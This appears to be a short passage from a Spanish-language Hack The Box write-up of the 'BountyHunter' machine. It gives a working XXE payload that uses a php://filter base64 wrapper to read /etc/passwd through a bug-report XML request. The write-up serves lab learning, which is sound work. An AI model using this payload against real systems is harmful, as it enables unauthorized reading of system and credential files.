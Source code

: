 ![](/assets/images/htb-writeup-bountyhunter/7.png)

Modificamos la peticion, donde mediante el uso de External Entity, leemos el archivo `/etc/passwd`, el cual aplicamos un wrapper de php para encodear en base64 el archivo, en caso de existir.

```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd"> ]>
		<bugreport>
		<title>&xxe;</title>
		<cwe></cwe>
		<cvss></cvss>
		<reward></reward>
		</bugreport>
```

![](/assets/images/htb-writeup-bountyhunter/8.png)
